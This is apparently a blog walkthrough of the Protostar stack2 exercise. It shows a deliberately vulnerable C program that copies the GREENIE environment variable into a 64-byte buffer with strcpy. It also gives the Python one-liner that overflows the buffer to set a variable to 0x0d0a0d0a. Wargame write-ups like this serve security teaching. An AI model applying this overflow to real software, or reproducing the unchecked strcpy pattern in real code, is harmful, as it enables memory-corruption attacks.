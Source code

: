 ```yaml
---
layout: post
title: "Environment Variable Overflows: protostar stack2"
date: 2018-10-21 14:53:24 -700
categories: jekyll update
---
```


BRIEF UPDATE: For reasons I am not aware of, the original site that hosted protostar, is currently down.

Fortunately, there is another site, liveoverflow.com, which is hosts protostar source code, though the VM is not hosted there unfortunately. 

~

This next challenge in protostar involves setting environment variables.
{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
{% endhighlight %}

The code is not too different from what we have seen before, except that it uses a function called getenv().

getenv() returns a pointer to an environment variable, in this case, "GREENIE".

An environment variable is essentially a value stored in a specific 'environment'. They can be used by programs, like the one above.


Our goal is to set the 'modified' variable to be equal to 0x0d0a0d0a. Notice that this program doesn't take input from the command line OR with gets(), or even scanf().

If you haven't guessed, we need to set the environment variable GREENIE to let us overflow the buffer, and let us overwrite the 'modified'.


$export GREENIE="test"


$./stack2

Try again, you got 0x00000000 

$



That did change the control flow from the default error that would be displayed if variable was NULL. Now we just need to overflow!

$export GREENIE="$(python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"')"


$./stack2

you have correctly modified the variable

$

Cool. 
Notice that unlike the gets() or strcpy() overflows, for this one, we need to only fill the buffer with 64 "A"s instead of 72.